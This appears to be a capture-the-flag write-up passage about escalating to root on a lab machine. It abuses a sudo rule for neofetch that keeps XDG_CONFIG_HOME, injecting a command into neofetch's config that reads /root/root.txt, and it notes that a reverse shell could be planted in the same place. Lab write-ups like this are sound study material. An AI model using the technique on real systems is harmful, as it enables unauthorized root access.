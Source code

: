 Privilege Escalation to Root:

* "sudo -l"
* env\_reset, mail\_badpass, secure\_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin, env\_keep+=XDG\_CONFIG\_HOME

```
	  User thomas may run the following commands on meta:
		(root) NOPASSWD: /usr/bin/neofetch \\\\"\\\\"

- So I wanted to see if XDG_CONFIG_HOME was defined:
	"echo $XDG_CONFIG_HOME"
- The output will come back blank, confirming that this variable has not been defined yet. So, we can set it ourselves.
- "export XDG_CONFIG_HOME=/home/thomas/.config/
- I then nano'd into config.conf (this is in .config now)
- I then simply put "printf $(cat /root/root.txt) in the first element.
	- I put this right below "print_info() {"
	- Right above "info title"
	- Save the file.
	- Now, execute the one command that thomas is allowed to execute on this system:
		- sudo /usr/bin/neofetch \\\\"\\\\"
		- You will see the hash for root.txt has been displayed directly below the first line in the terminal.
		- ROOOOOOOOOT
```

* Note: This was a lazier way to do this because of CTF purposes).
  * You could have placed a reverse shell where printf $(cat /root/root.txt) is and saved it.
  * Then execute sudo /usr/bin/neofetch \\"\\"
